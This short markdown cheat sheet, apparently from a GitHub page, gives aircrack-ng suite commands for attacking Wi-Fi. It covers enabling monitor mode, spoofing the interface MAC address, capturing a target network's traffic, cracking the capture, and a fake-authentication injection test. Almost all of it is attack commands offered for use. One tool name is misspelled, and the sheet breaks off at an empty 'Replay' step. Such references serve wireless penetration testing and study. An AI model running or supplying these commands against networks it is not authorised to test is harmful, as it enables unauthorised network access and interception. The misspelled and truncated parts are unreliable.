 ## Wireless Quick Reference

Place wlan0 in monitor mode
```
    airmon-ng check kill
    airmon-ng start wlan0
```

Change virtual monitor mac
```
    ifconfig wlan0mon down
    macchanger -m xx:yy:xx:77:88:99 wlan0mon
    ifconfig wlan0mon up
```

Run airodump
```
    airodoump-ng wlan0mon
```

Limit to bssid (ensure to select channel and bssid)
```
    airodump-ng -c 8 --bssid 00:00:00:00:00 -w capture wlan0mon
```

Attempt crack (change bssid as appropriate)
```
    aircrack-ng -b 00:00:00:00:00:00 capture-01.cap
```

Injection test
```
    aireplay-ng --fakeauth 0 -e "ESSID" -a 00:00:00:00:00:00 wlan0mon
```

Replay (b is bssid, h is client mac)
```
